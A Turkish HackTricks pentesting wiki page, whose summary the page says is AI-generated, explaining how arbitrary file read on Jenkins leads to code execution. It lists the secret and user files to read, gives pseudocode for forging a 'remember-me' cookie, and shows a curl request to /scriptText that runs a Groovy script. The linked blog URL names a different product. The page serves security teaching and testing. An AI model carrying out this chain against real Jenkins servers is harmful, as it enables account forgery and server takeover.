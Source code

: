 # Jenkins Rastgele Dosya Okuma ile RCE'ye "Beni Hatırla" Üzerinden

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu blog yazısında, Jenkins'teki Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulabilirsiniz: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir rastgele çerezin kötüye kullanıldığı ve RCE elde etmek için yerel dosya okuma ile istismar edildiği kısmın AI tarafından oluşturulmuş bir özetidir, kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

* **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
* **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
* **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgilerini Alma**

* Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
* **Kullanıcı Adı**
* **Kullanıcı tohum**
* **Zaman damgası**
* **Şifre karması**

**Gizli Anahtar Çıkartma**

* Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
* **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
* **Anahtar:** `$JENKINS_HOME/secrets/master.key`
* **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

*   **Token Süre Sonunu Hesapla:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Mevcut zamana bir saat ekler
```
{% endcode %}
*   **Token için Verileri Birleştir:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Anahtarını Şifre Çözme**

*   **MAC Anahtar Dosyasını Şifre Çöz:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

*   **HMAC SHA256 Hesapla:**

```javascript
mac = HmacSHA256(token, macKey)  // Token ve MAC anahtarını kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac)  // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

*   **Son Çerezi Oluştur:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Çerez verilerini Base64 ile kodla
```
{% endcode %}

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulama**

* **CSRF ve Oturum Tokenlerini Al:**
* `/crumbIssuer/api/json` adresine bir istek yaparak `Jenkins-Crumb`'ı elde edin.
* Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

*   **Groovy Script ile POST İsteği Gönder:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yaparak rastgele kodu güvenli bir şekilde çalıştırmanın nasıl yapılacağını göstermektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
